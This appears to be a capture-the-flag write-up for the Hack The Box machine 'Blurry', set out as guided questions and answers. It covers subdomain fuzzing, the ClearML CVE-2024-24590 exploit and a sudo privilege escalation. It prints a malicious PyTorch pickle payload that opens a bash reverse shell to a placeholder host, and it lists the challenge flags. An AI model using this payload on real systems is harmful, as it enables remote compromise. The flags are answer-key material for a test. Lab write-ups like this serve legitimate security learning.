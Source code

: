 ## Guided:
**Q:** How many open TCP ports are listening on Blurry?<br>
**A:** 2<br>

**Q:** What open source text communication software is running on a subdomain of blurry.htb?<br>
**A:** RocketChat<br>
> `wfuzz -w /usr/share/dnsrecon/dnsrecon/data/subdomains-top1mil.txt -H "Host: FUZZ.blurry.htb" -u http://app.blurry.htb -t 100 --hc 301,400`

**Q:** What is the tag inside the Black Swan project that will be periodically processed by the admin?<br>
**A:** review <br>

**Q:** What software is running on app.blurry.htb?<br>
**A:** ClearML  (1.13.1-426)<br>

**Q:** What version of ClearML webapp is running on Blurry?<br>
**A:** (1.13.1-426)<br>

**Q:** What is the 2024 CVE ID for a remote code execution vulnerability in this version of ClearML having to do with artifact get.<br>
**A:** CVE-2024-24590 <br>
> [ClearML-RCE](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit/blob/main/exploit.py)

**Q:** What system user is the ClearML application running as on Blurry?<br>
**A:** jippity

**Q:** Submit the flag located in the jippity user's home directory.<br>
**A:** 6adf3dae3feb71dc824c75a158bc02b4

**Q:** What is the full path to the script that jippity can run as root without a password?<br>
**A:** /usr/bin/evaluate_model<br>

**Q:** What Python machine learning library is used to load the given model in evaluate_model?<br>
**A:** PyTorch

**Q:** What decompiler and static code analyzer is used to evaluate if a given Python pickle object is safe enough to run in evaluate_model?<br>
**A:** Flickling<br>
>  Exploit in python used:    (By ippsec)
 ```bash
import os 
import torch
class RevShell:
        def __reduce__(self):
                return (os.system, ("bash -c 'bash -i >& /dev/tcp/<MY-IP>/<My-PORT> 0>&1'",))
torch.save(RevShell(), 'pwn.pth')
```

**Q:** Submit the flag located in the root user's home directory.<br>
**A:** 626e2ca296fc98ee7997d68c8ce28f4e
